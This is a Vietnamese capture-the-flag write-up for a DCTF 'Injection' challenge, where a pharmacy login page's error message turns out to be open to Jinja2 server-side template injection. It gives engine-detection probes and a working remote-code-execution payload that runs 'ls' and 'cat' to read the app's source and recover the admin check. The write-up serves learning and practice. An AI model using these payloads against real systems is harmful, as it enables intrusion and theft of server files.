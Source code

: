 # Injection

## Description

Our local pharmacy exposed admin login to the public, can you exploit it? http://dctf1-chall-injection.westeurope.azurecontainer.io:8080/

## Solution

![img](image/img_3.png)

Đề cho một form login thông thường và tiêu đề là *injection*, nên mình đã hồn nhiên fuzz form bằng đủ mọi chiêu trò SQLinject , tuy nhiên vô vọng điều này đã khiến mình mất cả buổi chiều . 
Để ý mỗi khi submit ta sẽ được đưa đến một trang login, tuy nhiên nó lại ko tồn tại.

> Oops! Page login doesn't exist :(

Cơ mà cũng từ đây mà mình nhận ra magic trong chall này . Đầu tiên hãy chú ý vào url nó có dạng sau http://domain:8000/login , tôi thử thay đổi url thành http://domain:8000/admin thì nhận được một thông báo *Oops! Page admin doesn't exist :(*.

Như thế có thể khẳng định rằng web sẽ lấy giá trị trên url để truyền vào thông điệp hiển thị trên trang . Từ đây bớt chợt tôi nghĩ đến một lỗ hổng đó là SSTI (https://viblo.asia/p/server-side-template-injection-YWOZrxvy5Q0).

Bước tiếp theo là xác định template engine nào đang được sử dụng. Vì vậy tôi đã thử các payload dưới đây :

```{{7*7}} : Oops! Page 49 doesn't exist :(*```
``` {{7*'7'}} : Oops! Page 7777777 doesn't exist :(*```

=> Template là Jinja2 

Sau khi đã xác định được template , ta sẽ injection dựa theo template đó. Đây là các payload khả dụng : (https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection). Mất một hồi mày mò thì tôi đã tìm ra một payload để có thể RCE .

> Payload : {{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

B1: List tất cả các thư mục trên web :
```Payload : {{config.__class__.__init__.__globals__['os'].popen('ls *').read()}}```
Result : Oops! Page **app.py lib: security.py static: index.png templates: error_page.py index_page.py** doesn't exist :( 

B2: Read các file :

```{{config.__class__.__init__.__globals__['os'].popen('cat app.py').read()}}```

![img](image/img_4.png)

```{{config.__class__.__init__.__globals__['os'].popen('cat lib/security.py').read()}}```

```
import base64 

def validate_login(username, password): 
	if username != 'admin': 
		return False 
	valid_password = 'QfsFjdz81cx8Fd1Bnbx8lczMXdfxGb0snZ0NGZ' 
	return base64.b64encode(password.encode('ascii')).decode('ascii')[::-1].lstrip('=') == valid_password
```
Ta thấy đoạn code trong file security.py dùng để check login , để pass thì bạn phải login với user=admin và passwd nhập vào sẽ được encode bs64 ,đảo ngược , cắt dấu bằng và so sánh với valid_password.

Đến đây tôi nghĩ việc cần làm là đảo ngược lại giá trị valid_password và decode base64.

## Flag

dctf{4ll_us3r_1nput_1s_3v1l}


